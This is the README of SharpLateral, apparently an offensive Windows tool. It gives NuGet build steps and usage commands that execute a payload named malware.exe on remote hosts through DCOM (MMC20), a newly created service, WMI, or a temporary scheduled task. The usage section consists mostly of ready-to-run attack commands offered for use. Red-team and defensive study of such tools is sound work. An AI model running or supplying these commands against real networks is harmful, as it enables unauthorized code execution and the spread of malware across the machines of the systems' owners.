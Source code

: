 # SharpLateral

## Compiling Project

Below 3rd party libraries are used in this project.

<b>TaskScheduler</b><br>https://github.com/dahall/TaskScheduler<br>
<b>Fody</b><br>	https://github.com/Fody/Fody<br><br>
Load the Visual Studio project up and go to "Tools" > "NuGet Package Manager" > "Package Manager Settings"<br>
Open "NuGet Package Manager" > "Package Sources"<br><br>
<b>Install the Fody</b><br>``Install-Package Costura.Fody -Version 3.3.3``<br><br>
<b>Install the Taskscheduler</b><br>``Install-Package TaskScheduler -Version 2.8.11``

## Usage

SharpLateral aims to perform lateral movement with the following methods:<br>

- DCOM
- SERVICE
- WMI
- SCHEDULED TASKS

  <b><br>DCOM:<br></b>
``SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe``<br>
Executes Malware on given hostname via MMC20<br>
<b><br>Scheduled Task:<br></b>
``SharpLateral schedule C:\Users\Administrator\Desktop\malware.exe TaskName``<br>
Creates Task,Executes Malware,Deletes Task<br>
<b><br>Service:<br></b>
``SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName``<br>
  Creates Service and executes malware with it<br>
<b><br>WMI:<br></b>
 ``SharpLateral redwmi Client2 C:\\Users\\Administrator\\Desktop\\malware.exe``<br>
Executes malware via WMI on remote host




